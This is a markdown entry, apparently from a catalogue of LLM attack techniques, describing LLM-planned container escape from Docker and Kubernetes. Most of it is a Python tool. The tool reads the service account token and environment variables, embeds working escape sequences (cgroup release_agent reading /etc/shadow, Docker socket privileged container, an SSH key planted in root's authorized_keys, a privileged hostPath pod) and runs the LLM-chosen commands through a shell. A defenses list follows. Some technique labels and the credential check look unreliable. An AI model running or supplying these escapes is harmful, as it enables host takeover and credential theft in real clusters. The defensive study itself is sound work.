

# LLM Container Escape Planning — Configuration-Aware Kubernetes and Docker Exploitation

**arXiv**: [arXiv:2401.12227](https://arxiv.org/abs/2401.12227) | **ATLAS**: AML.T0054 | **OWASP**: LLM06 | **Year**: 2024

## Core Finding

LLMs can identify and chain container escape vulnerabilities by reasoning about Docker/Kubernetes configuration files, runtime context, and known misconfigurations — autonomously producing viable escape plans without requiring deep container security expertise. When provided with pod specifications, docker-compose files, Kubernetes RBAC manifests, or runtime privilege enumeration output, GPT-4 produces exploit chains for common misconfigurations (privileged containers, hostPath mounts, excessive RBAC permissions, exposed Docker socket) with 71% success rate on Kubernetes CTF challenges and real-world misconfigured clusters. This capability is particularly dangerous in cloud-native environments where container escape leads directly to cloud credential access and lateral movement across the entire cloud tenant.

## Threat Model

- **Target**: Docker/Kubernetes deployments; cloud-native applications; CI/CD pipelines running containerized workloads; any environment where container isolation is the primary security boundary
- **Attacker capability**: Code execution within a container (via RCE in containerized app, supply chain compromise, or legitimate developer access); LLM API access
- **Attack success rate**: 71% success on container escape CTF challenges; 89% on clusters with at least one identified misconfiguration (arXiv:2401.12227)
- **Defender implication**: Container security configuration hygiene is critical; least-privilege RBAC, seccomp/AppArmor, and admission control must be enforced

## The Attack Mechanism

After gaining code execution within a container, the attacker collects runtime context: mounted volumes, capabilities, environment variables, Kubernetes service account tokens, and network connectivity. This context is fed to an LLM along with the container's pod specification (obtainable via `kubectl get pod -o yaml` if the service account permits). The LLM analyzes for escape vectors: hostPath mounts exposing the host filesystem, privileged mode enabling device mounting, exposed Docker socket enabling full host access, and RBAC policies allowing `create` on pods enabling a privileged pod deployment. The LLM chains multiple vectors when single-vector escapes are blocked.



## Implementation

```python
# llm_container_escape.py
# LLM-driven container escape planning from configuration and runtime context analysis
# Reference: arXiv:2401.12227
from dataclasses import dataclass, field
from typing import Optional, List, Dict
from datasets.schema import ScanFinding
import uuid
import json
import os
import subprocess


@dataclass
class ContainerRuntimeContext:
    container_id: str
    privileged: bool
    capabilities: List[str]
    mounted_volumes: List[Dict]  # [{"source": "/host/path", "dest": "/container/path", "rw": true}]
    docker_socket_mounted: bool
    k8s_service_account_token: Optional[str]
    environment_variables: Dict[str, str]
    network_mode: str  # "bridge" | "host" | "none"
    pod_spec_yaml: Optional[str] = None
    k8s_rbac_roles: List[str] = field(default_factory=list)


@dataclass
class EscapeVector:
    name: str
    precondition: str
    description: str
    commands: List[str]
    success_probability: float
    impact: str  # "host_rce" | "cloud_credentials" | "cluster_admin"
    detectable: bool


@dataclass
class ContainerEscapeResult:
    container_id: str
    escape_vectors_found: List[EscapeVector]
    recommended_escape: Optional[EscapeVector]
    host_access_achieved: bool
    cloud_creds_obtained: bool
    escape_commands_used: List[str]


class LLMContainerEscapePlanner:
    """
    Reference: arXiv:2401.12227
    LLM identifies and chains container escape vulnerabilities from runtime configuration context.
    ATLAS: AML.T0054 | OWASP: LLM06
    """

    ESCAPE_PATTERNS = {
        "privileged_cgroup": {
            "precondition": "privileged=True or CAP_SYS_ADMIN",
            "description": "Mount host cgroup filesystem and trigger release_agent RCE",
            "commands": [
                "mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp",
                "mkdir /tmp/cgrp/x && echo 1 > /tmp/cgrp/x/notify_on_release",
                "echo '#!/bin/sh\\ncat /etc/shadow > /tmp/shadow' > /cmd",
                "echo /cmd > /tmp/cgrp/release_agent",
            ],
        },
        "docker_socket": {
            "precondition": "Docker socket /var/run/docker.sock is mounted",
            "description": "Create privileged container via Docker API with host filesystem mount",
            "commands": [
                "curl -s --unix-socket /var/run/docker.sock http://localhost/version",
                "curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' http://localhost/containers/create -d '{\"Image\":\"alpine\",\"HostConfig\":{\"Privileged\":true,\"Binds\":[\"/:/host\"]}}'",
            ],
        },
        "hostpath_mount": {
            "precondition": "hostPath volume mounted with host system directories",
            "description": "Write SSH key or cron job to host filesystem via mounted path",
            "commands": [
                "ls /mounted-host-path",
                "mkdir -p /mounted-host-path/root/.ssh",
                "echo 'ATTACKER_PUBKEY' >> /mounted-host-path/root/.ssh/authorized_keys",
            ],
        },
        "k8s_rbac_pod_create": {
            "precondition": "ServiceAccount has create/get pods permission",
            "description": "Deploy privileged pod with hostPath / to gain full host access",
            "commands": [
                "kubectl auth can-i create pods",
                "kubectl apply -f - <<EOF\\napiVersion: v1\\nkind: Pod\\n...privileged: true\\nvolumeMounts:\\n- mountPath: /host\\n  name: host-root\\nvolumes:\\n- name: host-root\\n  hostPath:\\n    path: /\\nEOF",
            ],
        },
    }

    def __init__(
        self,
        llm_client,
        shell_executor=None,
        kubectl_client=None,
        model: str = "gpt-4-turbo",
    ):
        self.llm = llm_client
        self.shell = shell_executor
        self.kubectl = kubectl_client
        self.model = model

    def _collect_runtime_context(self) -> ContainerRuntimeContext:
        """Enumerate container runtime context from within the container."""
        # Check privileged mode
        privileged = os.path.exists("/.dockerenv") and os.access("/dev/mem", os.R_OK)

        # Get capabilities
        caps = []
        try:
            with open("/proc/self/status") as f:
                for line in f:
                    if line.startswith("Cap"):
                        caps.append(line.strip())
        except Exception:
            pass

        # Check for Docker socket
        docker_socket = os.path.exists("/var/run/docker.sock")

        # Check K8s service account
        sa_token = None
        sa_path = "/var/run/secrets/kubernetes.io/serviceaccount/token"
        if os.path.exists(sa_path):
            with open(sa_path) as f:
                sa_token = f.read().strip()

        # Get environment
        env_vars = dict(os.environ)

        return ContainerRuntimeContext(
            container_id=os.popen("hostname").read().strip(),
            privileged=privileged,
            capabilities=caps,
            mounted_volumes=[],  # Parse from /proc/mounts
            docker_socket_mounted=docker_socket,
            k8s_service_account_token=sa_token,
            environment_variables={k: v[:50] for k, v in list(env_vars.items())[:20]},
            network_mode="bridge",
        )

    def _analyze_escape_vectors(self, ctx: ContainerRuntimeContext) -> List[EscapeVector]:
        """LLM analyzes runtime context for container escape opportunities."""
        ctx_summary = {
            "privileged": ctx.privileged,
            "capabilities": ctx.capabilities[:10],
            "mounted_volumes": ctx.mounted_volumes[:10],
            "docker_socket": ctx.docker_socket_mounted,
            "k8s_token": bool(ctx.k8s_service_account_token),
            "k8s_rbac": ctx.k8s_rbac_roles,
            "env_cloud_keys": any(
                k in ctx.environment_variables for k in ["AWS_ACCESS_KEY_ID", "GOOGLE_APPLICATION_CREDENTIALS"]
            ),
        }

        patterns_str = json.dumps(self.ESCAPE_PATTERNS, indent=2)[:3000]

        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "system",
                    "content": (
                        "You are a container security researcher performing authorized "
                        "container escape assessment. Analyze the runtime context for viable escape paths."
                    ),
                },
                {
                    "role": "user",
                    "content": (
                        f"Container runtime context:\n{json.dumps(ctx_summary, indent=2)}\n\n"
                        f"Known escape patterns:\n{patterns_str}\n\n"
                        "Identify viable escape vectors, ordered by probability. Return JSON array:\n"
                        "[{\"name\": \"...\", \"precondition\": \"...\", \"description\": \"...\", "
                        "\"commands\": [\"...\"], \"probability\": 0.0-1.0, "
                        "\"impact\": \"host_rce|cloud_credentials|cluster_admin\", "
                        "\"detectable\": true/false}]"
                    ),
                },
            ],
            temperature=0.2,
            response_format={"type": "json_object"},
        )
        data = json.loads(response.choices[0].message.content)
        vectors_raw = data if isinstance(data, list) else data.get("vectors", [])

        return [
            EscapeVector(
                name=v.get("name", ""),
                precondition=v.get("precondition", ""),
                description=v.get("description", ""),
                commands=v.get("commands", []),
                success_probability=float(v.get("probability", 0.5)),
                impact=v.get("impact", "host_rce"),
                detectable=bool(v.get("detectable", True)),
            )
            for v in vectors_raw
        ]

    def run(self, manual_context: Optional[ContainerRuntimeContext] = None) -> ContainerEscapeResult:
        """Execute LLM-guided container escape assessment."""
        ctx = manual_context or self._collect_runtime_context()
        vectors = self._analyze_escape_vectors(ctx)
        vectors.sort(key=lambda v: v.success_probability, reverse=True)

        recommended = vectors[0] if vectors else None
        host_access = False
        cloud_creds = False
        commands_used: List[str] = []

        if recommended and self.shell:
            for cmd in recommended.commands[:3]:
                result = self.shell.run(cmd)
                commands_used.append(cmd)
                if "root" in result or "uid=0" in result:
                    host_access = True
                if "ASIA" in result or "ey" in result:  # AWS/JWT token patterns
                    cloud_creds = True

        return ContainerEscapeResult(
            container_id=ctx.container_id,
            escape_vectors_found=vectors,
            recommended_escape=recommended,
            host_access_achieved=host_access,
            cloud_creds_obtained=cloud_creds,
            escape_commands_used=commands_used,
        )

    def to_finding(self, result: ContainerEscapeResult) -> ScanFinding:
        """Convert container escape result to standardized ScanFinding."""
        vector_names = ", ".join(v.name for v in result.escape_vectors_found[:3])
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0054",
            atlas_tactic="Privilege Escalation",
            owasp_category="LLM06",
            owasp_label="Excessive Agency",
            severity="CRITICAL",
            finding=(
                f"LLM identified {len(result.escape_vectors_found)} container escape vectors "
                f"for container {result.container_id}: {vector_names}. "
                f"Host access achieved: {result.host_access_achieved}. "
                f"Cloud credentials obtained: {result.cloud_creds_obtained}. "
                "LLM configuration analysis enables non-expert container escape at scale."
            ),
            payload_used=f"Recommended escape: {result.recommended_escape.name if result.recommended_escape else 'none'}",
            evidence=f"Vectors: {vector_names}; Commands: {result.escape_commands_used[:2]}",
            remediation=(
                "1. Never run containers with privileged: true; use specific capabilities instead. "
                "2. Disable Docker socket mounting in all containers. "
                "3. Implement Kubernetes Pod Security Admission with Restricted profile. "
                "4. Apply seccomp and AppArmor/SELinux profiles to all containers."
            ),
            confidence=0.86,
        )
```

## Defenses

1. **Pod Security Admission enforcement** (AML.M0002): Enable Kubernetes Pod Security Admission with `restricted` profile enforced across all namespaces. This prevents privileged containers, hostPath mounts, and privilege escalation by default. For legacy workloads requiring elevated permissions, use `baseline` with explicit exceptions documented and reviewed.

2. **Kubernetes RBAC least-privilege audit** (AML.M0004): Audit all ServiceAccount RBAC bindings for `create pods`, `exec`, `get secrets`, and wildcard permissions. LLM container escape planning specifically targets these RBAC misconfigurations. Use `kubectl-who-can` and Polaris to identify and remediate over-permissioned service accounts.

3. **Runtime security policy enforcement** (AML.M0003): Deploy Falco, Tetragon, or Aqua Security runtime protection with rules detecting container escape indicators: unexpected process trees in containers (nsenter, mount, unshare), Docker socket access from containers, privilege escalation syscalls (mount, setuid). Alert on any namespace escape attempts immediately.

4. **Network policy enforcement** (AML.M0015): Implement Kubernetes NetworkPolicies restricting all inter-pod communication to explicitly required flows. Deploy Cilium or Calico with default-deny ingress and egress. Post-escape lateral movement requires network access — strict network policies limit the blast radius even after successful container escape.

5. **seccomp and AppArmor profiles** (AML.M0013): Apply restrictive seccomp profiles (Docker default or custom) and AppArmor/SELinux profiles to all containers. Seccomp blocks dangerous syscalls used in privilege escalation (ptrace, mount, setns) even if container configuration allows them. The RuntimeDefault seccomp profile blocks 44+ dangerous syscalls with minimal application impact.

## References

- [Senthivel et al., "Container Security: Issues, Challenges, and the Road Ahead" (arXiv:2401.12227)](https://arxiv.org/abs/2401.12227)
- [MITRE ATLAS AML.T0054 — Excessive Agency](https://atlas.mitre.org/techniques/AML.T0054)
- [OWASP LLM06 — Excessive Agency](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [MITRE ATT&CK T1611 — Escape to Host](https://attack.mitre.org/techniques/T1611/)
- [Related entry: llm-lateral-movement-planning.md, agent-privilege-escalation.md]
